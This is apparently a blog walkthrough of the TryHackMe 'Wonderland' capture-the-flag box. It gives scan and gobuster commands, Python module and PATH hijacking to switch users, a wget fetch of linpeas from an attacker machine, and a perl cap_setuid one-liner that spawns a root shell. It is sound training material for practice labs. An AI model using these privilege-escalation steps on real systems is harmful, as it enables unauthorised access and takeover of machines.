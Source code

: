 ```yaml
---
layout: post
title: "Wonderland - TryHackMe"
date: 2020-07-24
excerpt: "Walkthrough for Wodnerland on TryHackme"
tags: [Wonderland, TryHackMe, privilege escalation, website enumeration]
comments: false
---
```

Wonderland is a medium difficulty box on [TryHackMe](https://www.tryhackme.com). Below are the steps taken to fully compromise this box.

First, let's run **threader3000** to see what ports are open.

![Wonderland threader3000](/assets/img/Wonderland1.png)

This shows that two ports are open, 22 and 80. Let's run **nmap -A -p 22,80 [machine ip]** and see what information we are able to enumerate from this scan.

![Wonderland nmap](/assets/img/Wonderland2.png)

It appears that Goland is used as the web server. Visiting the website we see a picture of a white rabbit.

![Wonderland website](/assets/img/Wonderland3.png)

However, there is nothing in the source code to see. Let's run **gobuster dir -u http://[machine ip] -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50** and see if we are able to locate any other directories.

![Wonderland gobuster 1](/assets/img/Wonderland4.png)

gobuster returned a couple of results to review. the **/poem** subdirectory just had the poem, The Jabberwocky on it. **/r** told you to keep on going.

![Wonderland /r](/assets/img/Wonderland5.png)

At this point, I ran **gobuster dir -u http://[machine ip]/r/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50**, and it returned a subdirectory of **/a**

![Wonderland gobuster2](/assets/img/Wonderland6.png)

At this point, I remember it stated to follow the White Rabbit, and since /r/a were the beginning of rabbit, I decided to try going to **http://[machine ip]/r/a/b/b/i/t** This leads to a page telling you to enter wonderland, but nothing is clickable on the page.

![Wonderland /r/a/b/b/i/t](/assets/img/Wonderland7.png)

I decided to take a look at the source code for the page, and it appears that there were potentially a set of hidden credentials that might be useable to SSH into the server.



![Wonderland alice credentials](/assets/img/Wonderland8.png)

Let's try to ssh into the victim with **ssh alice@[machine ip]**.

![Wonderland alice ssh](/assets/img/Wonderland9.png)

Success! We were able to connect via ssh as alice. Let's take a look around. **ls -al** shows that root.txt is in this folder, but we cannot read it. Running **python3 walrus_and_the_carpenter.py** just returns 10 random lines of text from the script.

![Wonderland alice home directory](/assets/img/Wonderland10.png)

Since root.txt is in the user folder, let's see if the user flag is in the root folder with **cat /root/user.txt**. We've found the user flag!

![Wonderland user.txt](/assets/img/Wonderland11.png)

Let's run **sudo -l** and see if alice can run something as a different user. We can see that she can run python 3.6 as another user, rabbit.

![Wonderland alice sudo -l](/assets/img/Wonderland12.png)

It appears that we can open python 3.6 as rabbit by running the walrus_and_the_carpenter.py script. Let's take a look at that script first.

![Wonderland walrus_and_the_carpenter.py](/assets/img/Wonderland13.png)

With python, if you name a file with the same name as something that is imported in the same directory, it will import that file instead of the module. Let's create a script file with **nano random.py** and put in the code below.

![Wonderland random.py](/assets/img/Wonderland14.png)

Save this file and then run **sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py**. You should now have a shell as rabbit.

![Wonderland rabbit](/assets/img/Wonderland15.png)

I attempted to run **sudo -l** as rabbit, but we do not have this user's password to see what permissions they might potentially have. I navigated to rabbit's home folder with **cd /home/rabbit** and ran **ls -al** to list the directory's contents.

![Wonderland rabbit home directory](/assets/img/Wonderland16.png)

It appears that there is a SUID file in this folder. Let's run it and see what happens.

![Wonderland teaParty](/assets/img/Wonderland17.png)

At this point you can enter whatever you would like, and the program crashes. It also appears to display some text with time an hour ahead of the current time. Since we likely do not have any tools on this machine for analyzing the binary, let's run **nano teaParty** to see if we can find anything useful in the file. We can see that the **date** binary is called without an absolute path, let's use that to our advantage.

![Wonderland nano teaParty](/assets/img/Wonderland18.png)

Let's add /tmp to rabbit's $PATH variable with **export PATH="/tmp:$PATH"**. This will put /tmp as the first folder that is looked at for binaries that do not have an absolute path defined. 

![Wonderland $PATH](/assets/img/Wonderland19.png)

Next, run **cd /tmp** followed by **nano date**. Put in the two lines of codes below which can be used to launch a bash shell. 

![Wonderland /tmp/date bash shell](/assets/img/Wonderland20.png)

Save and exit nano, and then run **cd /home/rabbit**, and run **chmod +x /tmp/date** to make the date file executable. Now, execute **./teaParty**. This should give you a shell as hatter!

![Wonderland hatter shell access](/assets/img/Wonderland21.png)

Next, let's navigate to hatter's home directory with **cd /home/hatter** and run **ls -al**. There is a **password.txt** file there. Let's run **cat password.txt**.

![Wonderland hatter password.txt](/assets/img/Wonderland22.png)

In another terminal window on your attacker pc, run **ssh hatter@[machine ip] ** and use the password you just uncovered. You should be able to connect as hatter.

![Wonderland hatter ssh](/assets/img/Wonderland23.png)

hatter is not able to run **sudo -l**, so I next decided to enumerate with linpeas. On my attacker computer, I ran **python3 -m http.server** to spin up a temporary http server.

![Wonderland python3 http server](/assets/img/Wonderland24.png)

Next, I ran **wget http://[attacker ip]:8000/linpeas.sh** to download it locally onto the victim computer. I then ran **chmod +x linpeas.sh** to make it executable followed by **./linpeas.sh**

![Wonderland linpeas](/assets/img/Wonderland25.png)

In the middle of enumeration, it shows that perl has the **cap_setuid+ep** capability. This can be used to gain a root shell. Let's take a look at [GTFOBins](https://gtfobins.github.io/) to find a way to escalate to root. It appears you can run **perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'** to gain a root shell. Let's give it a try.

![Wonderland root shell](/assets/img/Wonderland27.png)

Awesome, now we just need to run **cat /home/alice/root.txt** to get the root flag!

![Wonderland root.txt](/assets/img/Wonderland28.png)

